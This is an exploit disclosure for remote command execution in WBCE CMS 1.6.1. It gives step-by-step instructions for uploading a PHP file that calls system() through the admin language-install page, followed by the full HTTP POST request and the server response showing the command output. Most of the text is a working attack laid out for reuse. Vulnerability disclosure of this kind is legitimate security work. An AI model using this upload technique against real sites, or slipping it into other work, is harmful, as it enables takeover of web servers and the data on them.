 ## Exploit Title: WBCE CMS Version 1.6.1 Remote Command Execution
## Date: 30/11/2023
## Exploit Author: tmrswrr
## Vendor Homepage: [https://wbce-cms.org/](https://wbce-cms.org/)
## Software Link: [WBCE CMS 1.6.1](https://github.com/WBCE/WBCE_CMS/archive/refs/tags/1.6.1.zip)
## Version: 1.6.1
## Tested on: [WBCE_CMS - Softaculous](https://www.softaculous.com/apps/cms/WBCE_CMS)

<img src="https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/1.png" alt="WBCE_CMS Image" width="1000">

<img src="https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/2.png" alt="WBCE_CMS Image" width="1000">


### POC:

1. Login with admin credentials and click on Add-ons.
2. Navigate to Language > Install Language > [Installation Link](https://demos6.softaculous.com/WBCE_CMSgn4fqnl8mv/admin/languages/index.php).
3. Upload `upgrade.php` with the content `<?php echo system('id'); ?>`, then click install > [Install Link](https://demos6.softaculous.com/WBCE_CMSgn4fqnl8mv/admin/languages/install.php).
4. The command execution result will be displayed: 

uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)



### Post Request:

```http
POST /WBCE_CMSgn4fqnl8mv/admin/languages/install.php HTTP/1.1
Host: demos6.softaculous.com
Cookie: [cookie values]
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://demos6.softaculous.com/WBCE_CMSgn4fqnl8mv/admin/languages/index.php
Content-Type: multipart/form-data; boundary=---------------------------86020911415982314764024459
Content-Length: 522
Origin: https://demos6.softaculous.com
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="formtoken"

5d3c9cef-003aaa0a62e1196ebda16a7aab9a0cf881b9370c
-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="userfile"; filename="upgrade.php"
Content-Type: application/x-php

<?php echo system('id'); ?>

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="submit"


-----------------------------86020911415982314764024459--```

### Response:

```<!-- ################### Up from here: Original Code from original template ########### -->

<!-- senseless positioning-table: needed for old modules which base on class td.content -->
<div class="row" style="overflow:visible">
<div class="fg12">
<table id="former_positioning_table">
<tr>
    <td class="content">
uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)
    <div class="top alertbox_error fg12 error-box">
        <i class=" fa fa-2x fa-warning signal"></i>

                    <p>Invalid WBCE CMS language file. Please check the text file.</p>
        
                    <p><a href="index.php" class="button">Back</a></p>```

